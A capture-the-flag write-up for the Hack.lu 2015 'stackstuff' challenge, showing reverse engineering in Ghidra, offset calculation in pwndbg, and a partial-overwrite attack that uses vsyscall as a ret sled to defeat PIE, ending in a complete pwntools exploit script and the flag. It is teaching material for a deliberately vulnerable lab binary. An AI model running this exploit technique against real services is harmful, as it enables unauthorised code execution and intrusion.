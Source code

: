 ```yaml
---
layout: post
title: Hacklu 2015 stackstuff
date: 2025-07-08 17:23:09 +0300
categories: Nightmare-series partial-overwrite
tags: nightmare buffer-overflow vsyscall x64 partial-overwrite brute-force
---
```


## Information 
- Category: Pwn
- Points:  --

## Description
> None

## Write-up
First, let’s run the program and see what it does:
<img src="/images/stuff/run.png" style="border-radius: 14px;">

As you can see, nothing happens when we run the program.
So let's do some reverse engineering to figure out what it's actually doing.

<img src="/images/stuff/rev.png" style="border-radius: 14px;">

As you can see, the program is listening on port ```0x5ea```, which is ```1514``` in decimal (after applying ```htons```).
So we can interact with the program using **netcat** on ```localhost``` port ```1514```:
```bash 
nc 127.0.0.1 1514

```
Now we want to see what the program is actually doing by connecting to port 1514 and checking its response.

<img src="/images/stuff/a.png" style="border-radius: 14px;">

Now we know that the program first reads an integer as a length, then reads that number of bytes from our input.
To check if there's a **buffer overflow**, we need to understand the logic behind this behavior.
So let’s go back to **Ghidra** and find the function that handles this input to analyze it more closely.

<img src="/images/stuff/p.png" style="border-radius: 14px;">

> From the reference string, you can find the function and use **Xref** to locate where it's called.
{: .prompt-tip}

<img src="/images/stuff/l.png" style="border-radius: 14px;">

The program uses ```fread()``` and lets the user decide how many bytes to read.
This makes it easy to create a **buffer overflow** by giving it a large size.

In the next step, we’ll calculate the offset to the **return address**.
But how do we do that?
We'll use **pwndbg** and set a breakpoint inside fread to examine the stack and memory layout.

```bash
gdb -q stackstuff
pwndbg: loaded 201 pwndbg commands. Type pwndbg [filter] for a list.
pwndbg: created 13 GDB functions (can be used with print/break). Type help function to see them.
Reading symbols from stackstuff...
Download failed: Connection refus
.
.
.
pwndbg> b*check_password_correct + 167
Breakpoint 1 at 0xf79
pwndbg> start
...
pwndbg> c
```

Then, make sure the program is listening by connecting to it:
```
nc 127.0.0.1 1514
Hi! This is the flag download service.
To download the flag, you need to specify a password.
Length of password: 4
ABCD
```
Now, after sending some random data to the program, let’s switch to **pwndbg** and see what’s happening under the hood:
```bash

[Switching to Thread 0x7ffff7dae740 (LWP 113323)]

Thread 2.1 "exe" hit Breakpoint 1, 0x0000555555400f79 in check_password_correct ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─[ REGISTERS / show-flags off / show-compact-regs off ]──
 RAX  0x7fffffffdec0 ◂— 0
 RBX  0
 RCX  0x7ffff7f978e0 (_IO_2_1_stdin_) ◂— 0xfbad2088
 RDX  4
 RDI  0x7fffffffdec0 ◂— 0
 RSI  1
 R8   0
 R9   0
 R10  0
 R11  0x202
 R12  0x7fffffffe0f8 —▸ 0x7fffffffe53d ◂— 0x4100636578656572 /* 'reexec' */
 R13  1
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe310 —▸ 0x555555400000 ◂— jg 0x555555400047
 R15  0
 RBP  0x7fffffffe070 —▸ 0x7fffffffe0d0 ◂— 0
 RSP  0x7fffffffdeb0 —▸ 0x7fffffffdee0 ◂— 0
 RIP  0x555555400f79 (check_password_correct+167) ◂— call fread@plt
──────────[ DISASM / x86-64 / set emulate on ]───────────
 ► 0x555555400f79 <check_password_correct+167>    call   fread@plt                   <fread@plt>
        ptr: 0x7fffffffdec0 ◂— 0 
        size: 1
        n: 4
        stream: 0x7ffff7f978e0 (_IO_2_1_stdin_) ◂— 0xfbad2088

... ↓            5 skipped
──────────────────────[ BACKTRACE ]──────────────────────
 ► 0   0x555555400f79 check_password_correct+167
...
pwndbg> p/x $rdi
$2 = 0x7fffffffdec0
pwndbg> i f
Stack level 0, frame at 0x7fffffffdf10:
 rip = 0x555555400f79 in check_password_correct;
    saved rip = 0x555555400fd1
 called by frame at 0x7fffffffdf20
 Arglist at 0x7fffffffdea8, args:
 Locals at 0x7fffffffdea8, Previous frame's sp is 0x7fffffffdf10
 Saved registers:
  rip at 0x7fffffffdf08
pwndbg> p/x 0x7fffffffdf08 - $2
$3 = 0x48
pwndbg>
```
So the offset is ```0x48``` (72 bytes).
That means we need to send **72 bytes** to reach and control the return address.

> The program has **PIE** and **NX** mitigations enabled.
{: .prompt-info}

Before exiting ```pwndbg```, there’s one important thing to note:
The **stack must be properly aligned** before calling a function — especially when we're trying to return into one to get the flag.

Since this binary has **PIE** enabled, we can’t hardcode return addresses as usual.
But there's a trick: we can use a **vsyscall** address as a fake ```ret``` instruction.

```vsyscall``` is an old mechanism for system calls. Its address is **static** and doesn't change, even with PIE.

This makes it useful as a **ROP NOP** — a return instruction that helps us align the stack or chain our gadgets safely.
```bash
pwndbg> vmmap
...
0xffffffffff600000 0xffffffffff601000 --xp     1000       0 [vsyscall]
pwndbg>
```

Earlier, we mentioned that there’s a hidden function in the binary that prints the flag — but where is it exactly?

In **Ghidra**, we can find it easily. Here's what it looks like:
<img src="/images/stuff/o.png" style="border-radius: 14px;">

As you can see, this function directly calls the flag-printing logic.
Our goal is to redirect execution to this function after bypassing protections.

```bash
   0x0000555555401086 <+172>:	call   0x555555400fba <require_auth>
   0x000055555540108b <+177>:	lea    rsi,[rip+0x36d]        # 0x5555554013ff
   0x0000555555401092 <+184>:	lea    rdi,[rip+0x3b6]        # 0x55555540144f
   0x0000555555401099 <+191>:	call   0x555555400cd0 <fopen@plt>
```
Now we have a function that opens the flag, located at address ending in ```0x8b``` (```0x55555540108b```).
Because the binary uses **PIE**, the base address is randomized — but **the last byte stays the same**.

That means we only need to **brute-force the upper byte(s)** of the address.
Since PIE randomizes a small portion (typically 4 bits in local), there are only ```2^4 = 16``` possibilities.

So, with at most **16 attempts**, we can guess the correct address and jump to the flag function.

## Exploit
```python
from pwn import *

context.binary = './stackstuff'
context.log_level = 'debug'

vsyscall_ret = p64(0xffffffffff600800)
padding = b"A" * 0x48
fixed_byte = b"\x8b"

def conn():
    return remote('127.0.0.1', 1514)

def make_payload(i):
    return padding + vsyscall_ret * 2 + fixed_byte + bytes([i])

def send_payload(r, payload):
    try:
        r.sendline(b'90')
        r.sendline(payload)
        r.recvuntil(b"Length of password: ")
        line = r.recvline(timeout=2)
        log.success(f"Flag line: {line.decode(errors='ignore')}")
        return True
    except EOFError:
        return False
    except Exception as e:
        log.warning(f"Exception while receiving: {e}")
        return False

def main():
    i = 0x00
    while i <= 0xFF:
        log.info(f"Trying byte: {hex(i)}")
        r = conn()
        payload = make_payload(i)
        if send_payload(r, payload):
            log.success(f"Correct byte found: {hex(i)}")
            pause()
            break
        else:
            log.info(f"Byte {hex(i)} failed.")
            i += 0x10
        r.close()

if __name__ == "__main__":
    main()
```

## Flag
Flag: ```flag{g0ttem_b0yz}```
